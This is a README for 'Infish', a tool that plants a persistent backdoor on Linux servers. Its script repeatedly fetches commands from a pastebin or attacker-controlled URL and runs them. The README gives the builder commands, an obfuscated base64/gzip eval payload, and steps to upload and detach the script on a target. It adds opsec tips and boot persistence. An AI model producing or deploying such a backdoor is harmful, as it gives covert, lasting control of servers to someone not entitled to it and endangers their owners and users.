 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access (command and control) on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url (or a website you control. Observe opsec though.)
- Using your pastebin dev api key, username, and password

However, you first need to clone this repository or copy the infis-builder file to your local machine. Make it executable by running  

```bash
$ chmod +x infish-builder
```

## Using a raw url

This is when you already have a webpage (observe opsec) or have already created a paste by hand. Get the **raw paste url** or the url or the page and run the following command

```bash
$ ./infish-builder url pastebin.com/raw/abc123
```
**or**

```bash
$ ./infish-builder url somesite.com/cmdpage
```
**You can also use this is you have a url you host on the internet**.

This will generate a file called **.infish** with contents that look like  

```bash
#!/usr/bin/env bash
eval "$(echo 'H4sIAAAAAAAAA3VQUUvDMBB+76+4hTJaoW06daClD1PRFxVBYQ/Dh9heXTBNRtpuY+J/N0ntZA89wiV33/cl+a7qZNFyJaEQZRDCN5jwbFrBBCIE4qcE3mE6BY1tp2X2D5aj4Iludcos+mKgEv9leUdgko9eRvxANOCn4YDWcAaRrkbxXu2M/HheNRisGZfWoZN1DWr2ibLNyZM6cCFYchlTCJZclmrXwPMbpDSmGZjG/CKDvU16e53SeUxDeMDiSyUzmlKzUrjnGiu1TxxK+ge0yMmGNS1+cBkXqk402yWLm9t0dt4zTK9mssz9oDBkiJpXiB4hWoB//Jw5ahE6Nq/sIA/G7Z/OuM2gXaN0sI3euCtRNHjs45YJGGSuW3HP7Y1A3MAVpXZQuzUXCK3uMINSOdyOzCuVRO8XMv8NvicCAAA=' | base64 -d | gunzip -c)";
```

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
$ ./infish-builder key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

$
```

A file called '.infish' is created. It will contain something like this   

```bash
#!/usr/bin/env bash
eval "$(echo 'H4sIAAAAAAAAA3VQUUvDMBB+76+4hTJaoW06daClD1PRFxVBYQ/Dh9heXTBNRtpuY+J/N0ntZA89wiV33/cl+a7qZNFyJaEQZRDCN5jwbFrBBCIE4qcE3mE6BY1tp2X2D5aj4Iludcos+mKgEv9leUdgko9eRvxANOCn4YDWcAaRrkbxXu2M/HheNRisGZfWoZN1DWr2ibLNyZM6cCFYchlTCJZclmrXwPMbpDSmGZjG/CKDvU16e53SeUxDeMDiSyUzmlKzUrjnGiu1TxxK+ge0yMmGNS1+cBkXqk402yWLm9t0dt4zTK9mssz9oDBkiJpXiB4hWoB//Jw5ahE6Nq/sIA/G7Z/OuM2gXaN0sI3euCtRNHjs45YJGGSuW3HP7Y1A3MAVpXZQuzUXCK3uMINSOdyOzCuVRO8XMv8NvicCAAA=' | base64 -d | gunzip -c)";
```

Finally, upload the **.infish** file to the target server and there, make it executable by running   

```bash
$ chmod +x .infish
```

Then to begin c&c, run  

```bash
$ nohup ./.infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)
